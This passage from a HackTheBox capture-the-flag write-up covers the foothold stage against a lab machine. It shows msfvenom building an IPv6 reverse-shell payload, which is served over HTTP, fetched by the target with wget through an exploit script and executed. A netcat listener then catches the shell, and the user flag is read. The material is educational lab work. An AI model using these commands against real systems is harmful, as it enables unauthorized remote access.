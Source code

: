 This was a failed attmept at using the mahchine

---
### Step 3 - Foothold
---
```bat
    kali@kali:~/Documents/Week3 -HackTheBox$ msfvenom -p linux/x64/shell_reverse_ipv6_tcp LHOST=dead:beef:2::1011 LPORT=12345 -f elf -o lin-x64-ipv6-rev-12345.elf
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 90 bytes
    Final size of elf file: 210 bytes
    Saved as: lin-x64-ipv6-rev-12345.elf
    kali@kali:~/Documents/Week3 -HackTheBox$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.10.10.140 - - [21/Sep/2020 12:40:08] "GET /lin-x64-ipv6-rev-12345.elf HTTP/1.1" 200 -
    10.10.10.140 - - [21/Sep/2020 12:43:15] "GET /lin-x64-ipv6-rev-12345.elf HTTP/1.1" 200 -

    //--------------==========================================-------------------

    kali@kali:~/Documents/Week3 -HackTheBox$ python 37811.py http://10.10.10.140/index.php/admin 'wget 10.10.14.19:8000/lin-x64-ipv6-rev-12345.elf'

    kali@kali:~/Documents/Week3 -HackTheBox$ python 37811.py http://10.10.10.140/index.php/admin 'chmod +x lin-x64-ipv6-rev-12345.elf && ./lin-x64-ipv6-rev-12345.elf'

    //---==================================---------------
    nc -nvl6p 12345
    Listening on :: 12345
    Connection received on dead:beef::250:56ff:feb9:a0bf 47500


    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ls       
....etc look throuhg it to see what I find.
```
Using nc to open a listening port to connect to machine and then running the script I was able to get inside the machine with a reverse shell, even though the shell was kind of hard to use.
```bat
cd home
ls
haris
cd haris
ls
user.txt
cat user.txt
a448877277e82f05e5ddf9f90aefbac8
echo "$USER"
```
---
### Step 4 - Privilage Escalation
---
